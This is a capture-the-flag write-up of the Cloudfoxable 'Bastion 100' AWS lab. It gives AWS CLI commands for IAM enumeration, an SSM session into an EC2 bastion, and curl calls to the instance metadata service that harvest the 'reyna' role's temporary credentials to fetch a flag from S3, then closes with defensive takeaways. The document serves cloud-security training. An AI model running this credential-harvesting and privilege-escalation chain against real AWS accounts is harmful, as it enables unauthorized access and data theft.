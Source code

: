 # Cloudfoxable - Bastion 100

## Challenge Statement

This challenge required us to enumerate IAM permissions and leverage a Bastion EC2 instance to escalate privileges and retrieve a flag stored in an S3 bucket. By analyzing attached IAM policies and using AWS SSM to access the instance, we uncovered credentials that allowed us to access and download the flag.

## Enumeration and Initial Access

The first step was to enumerate IAM permissions attached to the user `ctf-starting-user`, using the AWS profile `cloudfoxable`. We listed attached user policies:

```bash
aws iam list-attached-user-policies --user-name ctf-starting-user --profile cloudfoxable
```

One of the policies found was **SecurityAudit**, an AWS-managed policy granting read access to multiple AWS services. We retrieved its details:

```bash
aws iam get-policy --policy-arn arn:aws:iam::aws:policy/SecurityAudit --profile cloudfoxable
```

This policy permitted `Get*`, `Describe*`, and `List*` actions, allowing extensive enumeration capabilities.

Another policy, `bastion-ssm`, was found and described:

```bash
aws iam get-policy --policy-arn arn:aws:iam::425670648728:policy/bastion-ssm --profile cloudfoxable
```

Reviewing the policy version confirmed that the user could initiate an SSM session on EC2 instance `i-09a523312d972cb80`:

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::425670648728:policy/bastion-ssm --version-id v1 --profile cloudfoxable
```

## Establishing an SSM Session

With SSM access confirmed, we checked the EC2 instance state:

```bash
aws ec2 describe-instances --instance-ids i-09a523312d972cb80 --profile cloudfoxable
```

Once verified as running, we initiated an SSM session:

```bash
aws ssm start-session --target i-09a523312d972cb80 --profile cloudfoxable
```

## Privilege Escalation via Instance Profile

To escalate privileges, we needed to determine the IAM role attached to the EC2 instance. We retrieved the instance profile using either of these methods:

1. **EC2 Metadata Service:**

   ```bash
   curl http://169.254.169.254/latest/meta-data/iam/security-credentials
   ```

2. **AWS CLI:**
   ```bash
   aws ec2 describe-instances --instance-ids i-09a523312d972cb80 --query "Reservations[].Instances[].IamInstanceProfile" --profile cloudfoxable
   ```

The instance profile `bastion` was linked to the IAM role `reyna`. We extracted its details:

```bash
aws iam get-instance-profile --instance-profile-name bastion --query 'InstanceProfile.Roles[0].[RoleName, Arn]' --profile cloudfoxable
```

## Finding the Flag in S3

We enumerated the policies attached to `reyna` and identified `bastion-s3`:

```bash
aws iam list-attached-role-policies --role-name reyna --profile cloudfoxable
```

Checking its permissions:

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::425670648728:policy/bastion-s3 --version-id v1 --profile cloudfoxable
```

This revealed that the role allowed listing and retrieving objects from S3 bucket `cloudfoxable-bastion-v1ubc`.

Using EC2 metadata service, we obtained temporary credentials:

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/reyna
```

After adding these credentials to `~/.aws/credentials` under a new profile, we listed and retrieved the flag:

```bash
aws s3 ls s3://cloudfoxable-bastion-v1ubc --profile bastion
aws s3 cp s3://cloudfoxable-bastion-v1ubc/flag.txt $PWD --profile bastion
```

## Conclusion and Takeaways

This challenge reinforced key cloud security concepts, including IAM enumeration, EC2 metadata abuse, and leveraging temporary credentials for privilege escalation. Key takeaways:

- **Least Privilege Matters:** Overly permissive IAM roles allowed unintended access.
- **SSM Sessions Can Be Powerful:** Attackers with SSM access can pivot to EC2 instances.
- **EC2 Metadata is a Goldmine:** Metadata services provide temporary credentials that can be exploited.
- **Monitor Role Usage:** AWS CloudTrail should be used to detect unauthorized access patterns.

By understanding these weaknesses, defenders can better secure AWS environments against similar attacks. 🚀
